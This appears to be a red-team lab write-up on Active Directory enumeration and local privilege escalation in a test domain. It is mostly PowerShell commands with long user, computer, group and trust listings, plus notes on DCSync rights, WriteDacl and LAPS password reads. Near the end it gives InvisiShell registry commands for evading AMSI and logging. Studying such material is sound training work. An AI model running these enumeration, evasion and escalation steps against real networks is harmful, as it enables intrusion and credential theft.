


We will be focusing our enumeration using ADModule and also a PowerView module.
ADModule and PowerView are two popular tools used in Red Team engagements for Active Directory enumeration and post-exploitation. ADModule is a PowerShell module that leverages native .NET assemblies to interact with Active Directory, providing a set of cmdlets for querying AD objects, users, groups, and policies. It is efficient for performing enumeration tasks in environments where native AD tools are not available or where stealth is a priority.
PowerView, on the other hand, is a part of PowerSploit and is specifically designed for offensive security. It provides comprehensive functionality for enumerating domain information, identifying misconfigurations, and performing user and group enumeration. PowerView is known for its versatility and is commonly used during lateral movement and privilege escalation in Active Directory environments. While both modules serve similar purposes, ADModule tends to use more native approaches, while PowerView is tailored for stealth and comprehensive domain enumeration in Red Team operations.
NOTE: be aware that, it's not good to import ADModule and PowerView on the same session. Better keep them imported into separate sessions.
Once uploading ADModule into our machine we must import ADModule into our PowerShell session.
Import-Module .\Microsoft.ActiveDirectory.Management.dll
Import-Module .\ActiveDirectory\ActiveDirectory.psd1

That makes perfect sense! The issue was indeed related to how you imported the module.
When you only import the Microsoft.ActiveDirectory.Management.dll, you're essentially loading just the core AD management library, which doesn't include all the necessary cmdlets and functions that are typically loaded when you properly import the full module using the .psd1 file.
By correctly importing the .\ActiveDirectory\ActiveDirectory.psd1 file, you load the entire module, including all the additional functionalities and cmdlets that are designed to work together, providing the complete set of properties and expected output.
Enumerating Users
The first think we must always do when we do have access to a valid domain user, is to retrieve a list of all the valid users we do have inside the current domain we are.
Get-ADUser -Filter *
Get-ADUser -Filter * | Select -ExpandProperty 'SamAccountName'
AD-Users
Administrator
Guest
krbtgt
GCB$
appmanager
sqlsvc
MSP$
paadmin
trackadmin
ldapintegration
FINANCE$
orgadmin
JillRuffin
JoseBarclay
StaceyValenti
AlexisReurer
EricValdez
TheodoreHanna
BillyOdom
MyrtleTalley
MalcolmGray
JuanWright
AvisMcDonough
TheaMarquez
WilliamCarter
BurtonCartwright
MaryDee
DorothyTurner
ChrisRosen
StevenAnderson
JamesJenkins
JesseGrabowski
SteveVance
TrishaWebb
JamesGillespie
JeanWagner
RoySegers
EthelHale
JeniferPurser
JohnHughes
TamekaWhitmire
PatrickHansen
NatashaStoker
HowardHumphrey
RandyBergstrom
JeanClimer
JamesWall
BernieWebster
DesireeChausse
JimmyKelty
GaryGonzalez
KristinWatson
JeffreyHurd
KimberyLogan
HomerMunn
StephanyIngram
DanielWelcome
MorrisWright
DarrellStates
WillieLarosa
SteveHamilton
RobertLett
JohnTheriot
AnnMerritt
BettyCreason
TonyLambert
RichardGonzalez
EvaReyna
BrandyBecker
MarshaGoodwin
JuliusBrown
RobertGraham
SusanWard
KevinMcGhee
JohnBrown
FrancesBradley
GinaHarris
JoseAcuna
AmyDunn
JillHicks
DebbieConn
TerryMarr
DorrisArrington
CandiceLadner
HeatherShade
MichealParker
JosephRoberson
JosephScott
ShariceAnderson
DawnBaize
CarolineGriggs
NatalieFuller
MistyScholl
MichaelPeres
DarrylBrown
JamesKyzer
JamesDamico
CraigRolon
JulieOutlaw
JenniferScott
MarionTribble
AnnDaniels
EmmaShoemaker
FayeMatthews
ChristinaBowman
DeanaCyr
ThomasWatters
JackPotter
CandiceFoster
TimothyBarber
RobinPriddy
DonnaHouse
JuliaCameron
CarrieNicholson
ReneHurtado
KurtRoss
CarolynGuy
JulieGonzalez
WilliamWalls
BryanBlock
PatriciaHausman
JefferyNash
MirthaLopez
EricBerner
ThomasBlakeney
JefferyCraven
ScottGatlin
ConstanceHills
TracyFerrell
NatashaCrowder
LeoMurrah
BrandonMorgan
TonyKemp
TommyLopez
EdgarLynch
LeonardBustamante
NormaMartinez
ShirleyBurns
DebbiePayne
CarolNull
JarrettChambers
WarrenMcKenzie
JerrySharp
PatriciaWalker
KristiGraves
DerekThompson
MurielMealey
ClydeHernandez
BeverlyWhitaker
CynthiaBarba
CliffordDavis
AmeliaLomas
KathleenWright
IdaWalsh
BarbaraRaymond
WhitneyCarnahan
CarrieEvans
AntoniaPiper
MayraHargrove
DianeHolthaus
KathryneEdwards
ErnestWarren
EmilyGreen
DellaRutledge
GilbertDotson
NoraTrejo
MaryaliceFay
RonaldDaniel
GwendolynVillareal
HershelDurand
TimothyHayes
JackieHernandez
PaulPerdue
WhitneyFair
JeanAnthony
SallySeitz
JessicaBaty
BeverlyNorris
PatrickJulien
ErinHarrell
SusanWalker
TabathaAlford
FrancesBeach
CatherineJordan
PattyKelly
PamelaHasan
DellaRuiz
SylvesterDardar
BillyVargas
SeanEliason
LindaMcKenzie
DanaeRodgers
PearlCampas
LarryBaine
MichelleWilliams
ThomasNaples
PeggyVarela
KaylaPhillips
CorineLin
JohnCharette
JenniferHiller
VirginiaLoop
JohnTodd
RosemaryMata
LenaKilby
DorothyFernandez
HelenToney
CarolynLesh
EugeneMadrigal
WesleyReed
JesusNusbaum
RuthOrtega
DebraReed
GregoryParker
JamesKorman
JerryHammon
GeorgeHewitt
AngleaSilverstein
MattHughes
DennisBrooker
JeanBeres
HughVilla
ElizabethKeeling
VeraVernon
JohnWarren
JasonRuel
RobertHussey
SamuelBrown
JamesKelly
SteveRange
ThomasConway
ColletteHall
TeresaMaddux
EliciaPaden
NormanClark
MaryGroves
RhondaPurvis
WillardGable
WillardYelle
CandaceSmith
JesusDimaggio
NaomiAndrews
AnnMcCullum
LennaRoll
CarmenNolen
JaneFinnegan
DavidDabrowski
LaurenDefelice
BettyRainey
ThomasLarson
ReginaLattimore
CalvinHogan
DonaldGalligan
HarveyFoster
SuzanneEddings
MarvinFunes
ElizabethBelin
CathyWigfall
VincentBowers
OuidaTillis
EdwardWard
TimothySchmidt
BrianDavis
EvelynThomas
BarbaraWatson
BerniceClark
MildredGrier
HelenaAlvarez
JaneRatcliff
JuanaEberhardt
CharlesNorred
MichaelRobinson
DorothyCampbell
DorisJohnson
DougKenney
SusanLindsey
AngieSandlin
EarlHunt
DonnaAnderson
KelseyWagner
EvaPonder
ClaytonLawson
RitaHinrichs
MarcelinoStephens
StuartTaylor
JohnShoemake
AnthonyJackson
MaryShields
SarahWaddell
CarlaBlake
JonathanBeauvais
SamVasquez
JuliaPorter
MarinaMaddox
TinaAdamson
JonathanMorant
LucyFellers
PeggyPowell
RoryJames
ClevelandPartain
DinaPearsall
JohnGlanz
RhondaCamp
JohnJulian
GaryCook
WilliamKopp
FrankieWilson
JoyceThompson
GlennWard
KarenAnderson
MichaelXiong
VanessaGoldberg
LeahAbel
BryanColeman
RichieGallagher
BarbaraAlmeida
RuthBurns
AlbertAudet
TerryPeterson
CarltonQuiles
RalphMesta
EfrainDunbar
RandyMullett
LisaGriffith
LisaBarrett
HarryCrawford
OscarRocha
CarterJones
RichardBraden
PollySanders
DiannePearson
EugeneGuthrie
AmparoWillison
EricWashington
FernandeDickenson
TimMcGee
MarianMiddlebrook
LillieRangel
MichaelCurtis
StephenColvin
GraceLowe
JessicaTotten
WilliamDunaway
JohnRodriguez
NancyPettus
JohnHouser
JohnLong
JohnCollins
WhitneyParker
AlisonEvens
FrankPhillips
CharlesWheeler
CharlesScott
WilliamMcDonald
RobertMorrow
TonyGreene
RobertCarney
ChristopherGray
VirginiaLamb
JamesTimko
JacobWinkleman
JanetReese
AmberDesoto
GraceBush
MitchellSmithers
BrindaNova
DonnaOtterson
KeithGardner
MargaretBird
PhyllisCreech
LolaAdams
JamesAdler
JamesSharpe
LauraKelly
VirginiaFerguson
EricaSoutherland
SylvesterWhite
ThomasHinson
KyleMendoza
MichaelGallo
WilliamHubbard
TamalaWorden
DremaMcCarver
EddieChan
ShawnaMitchell
DanielGreen
RobertBurkhart
ViolaLevin
MartinSimmons
JeffLuke
MichaelPeters
AmyRico
NicholasBrown
MarciaJarvis
EricMerritt
SusanKirkpatrick
PeterAiello
MichaelKim
DanielJolley
DanielSegura
AdamRichardson
DavidBelle
MarjorieMeyer
KatherineLaing
DouglasLedoux
RayQuigley
SherriYoung
EllaThompson
JohnKnox
DavidKingston
AndreaBradshaw
JohnRichardson
RobertTillis
DonKidd
EricMcCourt
BarbaraMaze
JewellAvery
DannieMatos
CharlesHaynes
KimWu
BrianHayes
HelenHernandez
DavidSmith
JosephJohnson
CatherineLeyva
GenaMoore
ArlyneTownsend
JonathanNoble
KellyArruda
KeriMcConnell
DanielWilliams
DannyBlack
MildredMurphy
CarynCurtis
KristinaNero
HelenDennis
NicholasHannah
ThomasMaughan
ChristianHernandez
RonaldHall
StaceyHarris
PatrickArias
JanetHundt
StephenMcGonagle
MariaBruno
JohnGately
WilliamWestbrook
ChristineBurk
NellieMachuca
RalphHughes
DeniseGochenour
CaseyQuinn
SandraStutzman
QuentinNicholson
DarrellMiller
SteveMcClintock
BarbaraBellanger
MarkSpence
MargeryWoodard
GregoryStapleton
BonnieBarker
SarahSummers
LisaOrtiz
ElizabethSawyer
MargaretCruz
DeborahAxford
DamonDouglas
TomMurphy
SherryFerguson
RobertDailey
AnniePaniagua
MauriceBolton
GuillermoAnderson
BetsyHubbert
DoreneWilliams
MelitaPletcher
EthelFields
TimothyAyers
OliveSiefert
KatherineSmith
PatriciaGeno
DavidHarkins
BrandonHalcomb
GaryNichols
AnthonyCampana
WilliamGarcia
MarleneBretz
EltonWeaver
WilbertCastro
RalphBatista
JulianChristiansen
JamesPaterson
NicoleEberhard
MaryShirk
BrendaHunt
MichaelYoder
LelaAguirre
RonnieJohnson
DavidPack
DavidWhite
DanHaas
BrianCross
IreneTaylor
JimmyChaney
JosephineBoudreaux
RichardGriffith
BrendaRice
DawnDavis
TiffaniBonner
TammyValle
MichelleHarvell
LaurenDube
MaryBaxley
RubyFetter
CarolynKoenig
MichaelRangel
GeraldThomas
DarylMcClendon
CarlaPereira
HarryWelcher
MaryProfitt
JoshShelton
LaurieGaray
GaryBull
TaylorHempel
DavidHoward
JamieEstrella
WayneWilfong
MartinThompson
RayHickman
MariaWilliams
MarilynKing
RobertLewis
JohnMoser
BertieSierra
WilliamWatkin
MicheleLambert
EricHargrove
SarahMoreno
DerrickPereira
GeorgeSimmons
AliceDuquette
LisaBeauvais
GeorgeMay
WilliamRogers
JohnBridges
AshleyFrye
DawnChew
ElizabethDawson
KelleyMcDaniel
SandraSavoie
SonyaVentura
MiquelAdams
JanetWalker
CynthiaGoble
LeonaScott
RosaleeTaylor
WilliamWorkman
JosephWitt
EricPerez
LisaCrouch
ElizabethClark
LindaWest
RosaRichey
ErnestineOakley
CathyDaugherty
JosephTurner
KarineThomas
EleanorLattin
JacquelynRichard
DawnWare
KristaBarnes
LillyWood
JamesAllison
ShaneStanley
LeonEngram
PhyllisHeiser
JeffreyMorris
RogerWood
ColinLogan
DorothyCharles
RuthMartinez
NoraHolt
JoeOakes
DonaldRoss
FrancesWall
MargaretWright
ShaneKing
VincentCannon
RochelleMalone
AdaSowers
JamesPatterson
TheresaMartin
BettyCuevas
MatthewKeach
BeatriceHunt
TawandaPassmore
SandraMcGee
StephanieBlair
JonahJoyner
RobertCampbell
DavidJohnson
DianaSchultz
HubertWare
BrandonHarman
EmmaFoster
ClydeBlythe
CatherineGeisler
WayneTaylor
JamesCurry
GlenRouse
JeremyThompson
KarenShields
BenjaminBerg
JohnMitchell
BertChoi
RobertWilliams
NancyBarker
LouieMohr
MelissaHong
JessieMcKinney
ConnieMitchell
LeonChase
JohnLeon
MaryErickson
MatthewFraga
DeborahBlaney
RobertDennis
KellieScruggs
JohnnyCoachman
HarrisonBastarache
RichardWilliams
JamieHam
JoyePaez
ValerieRamsey
RobertHudson
RobinVassallo
BarbaraMcDonald
JeannineJohnstone
MichelAnderson
FranklinMcGeorge
GaryKiesel
DavidTerrell
CharlesWhite
ArthurLafleur
AdrianDavis
DonaldBonet
MichelleHigh
MaryVandyke
MarlinTillson
LeslieAndresen
MaggieSilva
CynthiaRandle
MurielBoggs
ThomasCarr
DebraLange
HelenSeeley
RitaGolden
DavidGessner
MichaelMorabito
LucindaVarga
RebeccaJohnson
FrederickLedezma
KimberlyBrannon
DavidAlexis
RobertWelling
ShawnHarris
WilliamClark
JudithPaige
EricSutton
TimothyChandler
JosephCreighton
JasonMcFadden
RobertBobbitt
EllaLee
JeffSteward
VictoriaPrice
ClaytonHanlin
AbbiePope
RonaldObrien
WayneRome
AnthonyDuty
GeorgeButler
GavinMinor
EvaDennis
JimmySawyers
RebeccaGreen
CynthiaManess
ColleenHensler
MaryDavis
CherylTheriault
AnnieVine
MarilynBailey
JeffreyNaples
RichardLynn
MeganMcCoy
ITEmployee40
ITEmployee41
ITEmployee42
ITEmployee43
ITEmployee44
ITEmployee45
ITEmployee46
ITEmployee47
ITEmployee48
ITEmployee49As it is possible to see, we do have a huge number of users inside the current domain. if we really want to know the total number of users inside this domain, we can use the Measure-Object and this will count and deliver the total number of users.
(Get-ADUser -Filter * | Select -ExpandProperty 'SamAccountName' | Measure-Object).Count

Enumerating Computers
Get-ADComputer -Filter *
Get-ADComputer -Filter * | Select -ExpandProperty 'SamAccountName'
AD-Computers
IT-DC$
IT-PREPROD$
IT-SQLSRV02$
IT-APPSRV01$
IT-TRACK01$
IT-EMPLOYEETEST$
it-srv10$
it-db07$
it-appsrv05$
it-dc07$
it-sqlsrv06$
it-db02$
it-prod02$
it-report02$
it-prod11$
it-prod04$
it-file07$
it-srv09$
it-dc04$
it-srv08$
it-dc02$
it-prod03$
it-db11$
it-prod09$
it-report07$
it-file05$
it-dc10$
it-appsrv04$
it-uat03$
it-db04$
it-uat05$
it-preprod05$
it-uat02$
it-uat06$
it-appsrv07$
it-track02$
it-prod05$
it-preprod09$
it-report04$
it-srv07$
it-uat10$
it-db09$
it-preprod02$
it-uat08$
it-srv03$
it-dc11$
it-preprod04$
it-report08$
it-preprod11$
IT-EMPLOYEE40$
IT-EMPLOYEE41$
IT-EMPLOYEE42$
IT-EMPLOYEE43$
IT-EMPLOYEE44$
IT-EMPLOYEE45$
IT-EMPLOYEE46$
IT-EMPLOYEE47$
IT-EMPLOYEE48$
IT-EMPLOYEE49$(Get-ADComputer -Filter * | Select -ExpandProperty 'SamAccountName' | Measure-Object).Count

Enumerating Groups
Get-ADGroup -Filter *
Get-ADGroup -Filter * | Select -ExpandProperty 'SamAccountName'
AD-Groups
Administrators
Users
Guests
Print Operators
Backup Operators
Replicator
Remote Desktop Users
Network Configuration Operators
Performance Monitor Users
Performance Log Users
Distributed COM Users
IIS_IUSRS
Cryptographic Operators
Event Log Readers
Certificate Service DCOM Access
RDS Remote Access Servers
RDS Endpoint Servers
RDS Management Servers
Hyper-V Administrators
Access Control Assistance Operators
Remote Management Users
Storage Replica Administrators
Domain Computers
Domain Controllers
Cert Publishers
Domain Admins
Domain Users
Domain Guests
Group Policy Creator Owners
RAS and IAS Servers
Server Operators
Account Operators
Pre-Windows 2000 Compatible Access
Windows Authorization Access Group
Terminal Server License Servers
Allowed RODC Password Replication Group
Denied RODC Password Replication Group
Read-only Domain Controllers
Cloneable Domain Controllers
Protected Users
Key Admins
DnsAdmins
DnsUpdateProxy
LocalAdmins
ITEmployeesMachines
Services
ITEmployeesUsers
organizationadminsIt is possible to see above the list of Groups inside this domain, and we can by looking at the list, spot that we do have several non-standard groups here and this already catches my attention. Here are the non-standard groups from our list. These groups are not part of the default Active Directory groups and likely represent custom or organizational-specific groups:
- LocalAdmins
- ITEmployeesMachines
- Services
- ITEmployeesUsers
- organizationadmins
Now lets move a bit further on this enumeration... Let's go over one by one of the groups we just found inside the target domain and check the attributes of one specific group of our interest.
Get-ADGroup -Identity 'LocalAdmins' -Properties *

Get-ADGroup -Identity 'ITEmployeesMachines' -Properties *

Get-ADGroupMember -Identity 'ITEmployeesMachines' | Select -ExpandProperty 'SamAccountName'

Get-ADGroup -Identity 'Services' -Properties *

Get-ADGroupMember -Identity 'Services' | Select -ExpandProperty 'SamAccountName'

Get-ADGroup -Identity 'ITEmployeesUsers' -Properties *

Get-ADGroupMember -Identity 'ITEmployeesUsers' | Select -ExpandProperty 'SamAccountName'

Get-ADGroup -Identity 'OrganizationAdmins' -Properties *

Get-ADGroupMember -Identity 'OrganizationAdmins' | Select -ExpandProperty 'SamAccountName'

Let's now enumerate some of the important standard Active Directory groups worth it enumeration.
Domain Admins
Get-ADGroup -Identity 'Domain Admins' -Properties *

Get-ADGroupMember -Identity 'Domain Admins' | Select -ExpandProperty 'SamAccountName'

Special Group
There is a special case here for a special group. There is a Group named 'Enterprise Admins'

The Enterprise Admins group is a highly privileged security group in a Microsoft Active Directory (AD) forest. It exists only in the root domain of the AD forest and grants its members administrative privileges across the entire forest, including all child domains. Members of this group have the ability to manage any domain, Domain Controllers (DCs), and critical AD components across the forest.
From an offensive security perspective, enumerating the Enterprise Admins group is crucial because it provides insight into who holds the keys to the forest, opening pathways to achieve forest dominance.
The explanation above is the reason why we do receive the error when we tried to enumerate the enterprise Admins group, we are inside a child domain it.gcb.local.
By specifying the -Server parameter and pointing it to the root domain (it.gcb.local), the command will direct the query to the correct location where the Enterprise Admins group resides, allowing the enumeration to succeed.
Get-ADGroup -Identity 'Enterprise Admins' -Properties * -Server 'gcb.local'

Why Did the Query Work with Server and the Root Domain?
- Specifying the Root Domain:
- By adding the
Serverparameter and pointing it to the root domain controller (gcb.local), the query is explicitly directed to the correct domain where the Enterprise Admins group resides.
- The Enterprise Admins group is located in the root domain of the forest (
gcb.local) because it is a group that provides forest-wide administrative access.
- By adding the
We now can retrieve the information from Enterprise Admins group and we can also enumerate the members of this group.
Get-ADGroupMember -Identity 'Enterprise Admins' -Server 'gcb.local' | Select -ExpandProperty 'SamAccountName'

Well, we can see above that only the Administrator is part of this special group.
Get-ADGroup -Identity 'Administrators' -Properties *

Get-ADGroupMember -Identity 'Administrators' | Select -ExpandProperty 'SamAccountName'

We can also see that. the Domain Administrator and also members of groups Domain Admins and Enterprise Admins area also part of the Administrators group.
Enumerating Organizational Units
Let's now start enumerating all the Organizational Units we have configured in this domain.
Get-ADOrganizationalUnit -Filter *

Get-ADOrganizationalUnit -Filter * | Select -Expandproperty 'Name'

Let's use Domain Controllers OU and list all the computers inside this OU.
Get-ADOrganizationalUnit -Identity 'OU=Domain Controllers,DC=it,DC=gcb,DC=local' | %{Get-ADComputer -SearchBase $_ -Filter *} | Select name

Get-ADOrganizationalUnit -Identity 'OU=AppServers,DC=it,DC=gcb,DC=local' | %{Get-ADComputer -SearchBase $_ -Filter *} | Select name

Get-ADOrganizationalUnit -Identity 'OU=ITEmployees,DC=it,DC=gcb,DC=local' | %{Get-ADComputer -SearchBase $_ -Filter *} | Select name

Get-ADOrganizationalUnit -Identity 'OU=PreProd,DC=it,DC=gcb,DC=local' | %{Get-ADComputer -SearchBase $_ -Filter *} | Select name

During our OU enumeration, we mapped out the organizational structure of the domain to better understand how assets, users, and groups are logically separated and managed. This process allowed us to identify custom OUs like ITEmployees, which often hold valuable targets such as workstations, service accounts, and employee groups. By analyzing the distinguished names and hierarchy, we gained visibility into the administrative boundaries and delegation models within the environment. This also helped us pinpoint high-value areas for privilege escalation and lateral movement, especially where group policies or access controls might be misconfigured.
Enumerating ACLs
Instead of enumerating the each ACLs on the domain, I decided to do it differently. I decided to use Find-InterestingDomainACL which is a module from PowerView that allows us to verify really interesting ACLs by passing the user or even groups as well. For example, it will show us if a specific user or group itself have some interesting ACLs like GenericAll, GenericWrite, etc over an Object.
Import-Module .\PowerView.ps1
Find-InterestingDomainACL -ResolveGUIDs -Verbose
orgadmin User - Domain Replication Rights
The orgadmin user has the DS-Replication-Get-Changes, DS-Replication-Get-Changes-All, and DS-Replication-Get-Changes-In-Filtered-Set rights. These permissions grant the ability to replicate directory data, including sensitive information such as password hashes. This user can effectively perform DCSync attacks, making it a high-value target.
organizationadmins Group - WriteDacl
The organizationadmins group has WriteDacl permissions on the domain root. This allows modifying the domain's Access Control List (ACL), which can be leveraged to perform various attacks such as adding new users, modifying group memberships, or even creating new domain admins.
Find-InterestingDomainACL -ResolveGUIDs | ?{$_.IdentityReferenceName -Match 'employee41'}

Find-InterestingDomainACL -ResolveGUIDs | ?{$_.IdentityReferenceName -Match 'ITEmployees'}

Find-InterestingDomainACL -ResolveGUIDs | ?{$_.IdentityReferenceName -Match 'LocalAdmins'}

Enumerating Domain, Forest & Trusts
Import-Module .\Microsoft.ActiveDirectory.Management.dll
Import-Module .\ActiveDirectory\ActiveDirectory.psd1
Get-ADForest

This command quickly maps the forest's structure, identifies key servers (e.g., Domain Controllers, Global Catalogs), and highlights potential targets for attacks or lateral movement.
The Get-ADForest command enumerates the structure and key components of the Active Directory forest. It provides a summary of:
- Domains: Lists all domains in the forest (e.g.,
gcb.localandit.gcb.local). - FSMO Roles: Shows which domain controllers hold the Flexible Single Master Operation roles, crucial for domain operations.
(Get-ADForest).Domains

Enumerating Trusts
We can also map or enumerate all the Trusts we do have from the current domain we are part of (it.gcb.local).
Get-ADTrust -Filter *
AD-Trust
Direction : BiDirectional
DisallowTransivity : False
DistinguishedName : CN=gcb.local,CN=System,DC=it,DC=gcb,DC=local
ForestTransitive : False
IntraForest : True
IsTreeParent : False
IsTreeRoot : False
Name : gcb.local
ObjectClass : trustedDomain
ObjectGUID : a70fb9f9-6e42-4a47-b15e-a238047293f6
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source : DC=it,DC=gcb,DC=local
Target : gcb.local
TGTDelegation : False
TrustAttributes : 32
TrustedPolicy :
TrustingPolicy :
TrustType : Uplevel
UplevelOnly : False
UsesAESKeys : False
UsesRC4Encryption : False
Direction : Inbound
DisallowTransivity : False
DistinguishedName : CN=msp.local,CN=System,DC=it,DC=gcb,DC=local
ForestTransitive : False
IntraForest : False
IsTreeParent : False
IsTreeRoot : False
Name : msp.local
ObjectClass : trustedDomain
ObjectGUID : 20e3944e-eec2-466b-bf8b-99b26d2e8a13
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source : DC=it,DC=gcb,DC=local
Target : msp.local
TGTDelegation : False
TrustAttributes : 0
TrustedPolicy :
TrustingPolicy :
TrustType : Uplevel
UplevelOnly : False
UsesAESKeys : False
UsesRC4Encryption : False
Direction : BiDirectional
DisallowTransivity : False
DistinguishedName : CN=gcbfinance.local,CN=System,DC=it,DC=gcb,DC=local
ForestTransitive : False
IntraForest : False
IsTreeParent : False
IsTreeRoot : False
Name : gcbfinance.local
ObjectClass : trustedDomain
ObjectGUID : 856f2a5a-643b-45da-a226-c9ef5f6163f8
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : True
Source : DC=it,DC=gcb,DC=local
Target : gcbfinance.local
TGTDelegation : True
TrustAttributes : 516
TrustedPolicy :
TrustingPolicy :
TrustType : Uplevel
UplevelOnly : False
UsesAESKeys : False
UsesRC4Encryption : FalseOur current child domain it.gcb.local has three trust relationships established with other domains.
- gcb.local: This is a bi-directional, intra-forest trust, meaning both domains trust each other and are part of the same forest. The trust is not transitive and does not use selective authentication. This setup is typical within the same organization or environment.
- msp.local: This is an inbound trust, meaning that the msp.local domain trusts the it.gcb.local domain, but not vice versa. It is an external trust (not intra-forest), indicating that msp.local likely belongs to a separate forest or organization. The trust is also non-transitive and does not use selective authentication.
- gcbfinance.local: This is a bi-directional, external trust, allowing mutual trust between it.gcb.local and gcbfinance.local. It has TGT delegation enabled, which may allow cross-domain Kerberos delegation. Additionally, SID filtering is quarantined, indicating potential restrictions on SID history usage to prevent unauthorized access from external domains.
In summary, the current environment provides interesting trust relationships that can be leveraged for cross-domain attacks.
Since we do have a 2-Ways or BiDirectional trust with an External Trust gcbfinance.local, we can also query the Trusts gcbfinance.local have.
Get-ADTrust -Filter * -Server 'gcbfinance.local'

The enumeration revealed a bi-directional, non-transitive trust between the it.gcb.local child domain and the gcbfinance.local domain. This relationship is established as an Uplevel trust, indicating both domains are at the same functional level. The trust is not forest-transitive, meaning it does not extend beyond these two domains.
Interestingly, SID filtering is enabled (quarantined), which helps protect against unauthorized SID history usage from the external domain. Additionally, TGT delegation is disabled, which means that cross-domain Kerberos ticket-granting ticket delegation is not allowed, reducing the risk of credential abuse.
This trust configuration suggests a controlled and secure relationship, primarily focused on allowing authentication and access between the two domains while minimizing security risks.
Now let's enumerate the trusts of our root or Parent Domain (gcb.local).
Get-ADTrust -Filter 'IntraForest -ne $True' -Server (Get-ADForest).Name

It seems like our root domain does not have other trusts.
Local Privesc
At this point, we have gathered enough information about the domain and its current configuration to start planning our moves. Our goal is to gain higher-level privileges, giving us full control over the system.
Let's use PivescCheck to enumerate if we have some misconfiguration locally, it will help us to find attack vectors for local privilege escalation
. .\PrivescCheck.ps1
Invoke-PrivescCheck

We found that our current user, belonging to the IT\ITEmployeesUsers group, had AllAccess permissions on the Service Control Manager (SCM). This meant that we could perform any action related to managing services, a significant foothold for privilege escalation.
Understanding the potential of SCM abuse, we planned to create a new service that would add our user to the Builtin\Administrators group. To do this, we ...
Based on our previous enumeration phase, when we checked the ACLs we found the followin:
ITEmployeesUsers Group - Read/Write Property
The ITEmployeesUsers group has ReadProperty, WriteProperty, and GenericExecute rights over the LocalAdmins object. This means members of this group can read and modify attributes on the LocalAdmins group, potentially allowing privilege escalation through property manipulation.
LocalAdmins Group - LAPS Password Read
The LocalAdmins group has ReadProperty and ExtendedRight over the ms-Mcs-AdmPwd attribute, which is typically associated with LAPS (Local Administrator Password Solution). This means members can read the local admin password for systems that use LAPS.
Since our user is already a member of the ITEmployeesUsers group, we automatically inherit the ReadProperty, WriteProperty, and GenericExecute rights over the LocalAdmins object. This means we can directly leverage these privileges to manipulate attributes or memberships within the LocalAdmins group.
Given this context, our next step will focus on utilizing the WriteProperty permission to add our current user to the LocalAdmins group. This will grant us local administrative rights. Additionally, since we have ReadProperty and ExtendedRight over the ms-Mcs-AdmPwd attribute via the LocalAdmins group, we will also attempt to retrieve the LAPS-managed local admin password.
By exploiting both of these paths, we aim to gain local admin privileges effectively and ensure full control over the target system.
Lets once again run InvisiShell and AMSI bypass as well.
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916_db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916_db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916_db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InShellProf.dll" /f
powershell
set COR_ENABLE_PROFILING=
set COR_PROFILER=
REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916_db}" /f
Once the new PowerShell session is initiated after running InvisiShell, we can then execute the following AMSI bypass into the current session.
Import-Module .\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module .\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Import-Module .\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose

Now that we have imported the 2 modules, Let's enumerate the Organizational Unit where LAPS is configured.
For that we will use the script Get-LapsPermissions.ps1.
.\Get-LAPSPermissions.ps1 -Verbose

- Read Rights:
- OrganizationalUnit: This indicates the Organizational Unit (OU) in Active Directory where the LAPS permissions are applied, specifically the
OU=AppServersOU.
- OrganizationalUnit: This indicates the Organizational Unit (OU) in Active Directory where the LAPS permissions are applied, specifically the
- Write Rights:
- OrganizationalUnit: Again, this is the OU where the permission is applied, which is the same as the read rights (
OU=AppServers). - IdentityReference: This indicates the security principal with write access to the LAPS attributes.
NT AUTHORITY\SELFThis means that the computer account (via the SELF security principal) can write its own password (e.g., update the
ms-Mcs-AdmPwdattribute) to Active Directory.
This is a standard LAPS configuration.
- OrganizationalUnit: Again, this is the OU where the permission is applied, which is the same as the read rights (
